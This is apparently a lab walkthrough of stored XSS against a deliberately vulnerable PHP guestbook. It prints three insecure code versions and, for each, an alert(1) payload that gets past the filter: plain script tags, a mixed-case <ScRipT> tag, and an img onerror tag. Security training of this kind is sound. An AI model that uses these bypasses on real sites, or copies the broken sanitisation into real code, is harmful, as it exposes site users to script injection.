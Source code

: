 Unlike Reflective XSS, Stored XSS will be saved on database and it will be fetch when required so any user fetches this data will be victim of this attack. It can be username, account description, maybe a simple chat message or even emails. 

# Vulnerable Code 1

This code will get "mtxMessage" and "txtName" parameter  from user and save it to database. 

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```


## Abuse

Since there is no input sanitizing we can just make it save javascript commands and during data using, malicious javascript code will be executed.

## Payload

```php
<script>alert(1)</script>
```

## Result

```php
<div id="guestbook_comments">
Name: <script>alert(1)</script><br>
Message: <script>alert(1)</script><br>
</div>
```


# Vulnerable Code 2
This code will get "mtxMessage" and "txtName" parameter  from user and save it to database. 

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```


## Abuse

In this code, there is input filtering on both "mtxMessage" and "txtName" parameter. On "mtxMessage" parameter any html and php tag will be stripped and javacript code execution will prevented but same approach didn't made for "txtName" parameter.

The problem on "txtName" parameter, any given "\<script>" value inside of user input will be deleted. This filtering is not secure because it only filters lower character, we can still execute javascript with lower and upper characters because javascript is not case sensitive. Payload will be like "\<ScRipT"

## Payload

```php
<ScRipT>alert(1)</ScRipT
```


## Result

```php
<div id="guestbook_comments">
Name: <script>alert(1)</script><br>
Message: alert(1)<br>
</div>
```

# Vulnerable Code 3

This code will get "mtxMessage" and "txtName" parameter  from user and save it to database. 


```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

## Abuse

In this code, there is input filtering on both "mtxMessage" and "txtName" parameter. On "mtxMessage" parameter any html and php tag will be stripped and javacript code execution will prevented but same approach didn't made for "txtName" parameter.

The problem on "txtName" parameter, any given "\<script>" value inside of user input will be deleted. This filtering is NOT case sensitive, "preg_replace" function will filter any given user input that contains "script". We can still execute other javascript command without "\<script>" tag. To abuse this, we will define an image tag and set source to an unknown location and force it get error. When error occurs we will make it to run our own javascript code

## Payload

```php
<IMG SRC=/ onerror="alert(1)"></img>
```

## Result

```php
<div id="guestbook_comments">
Name: <img src="/" onerror="alert(1)"><br>
Message: <br></div>
```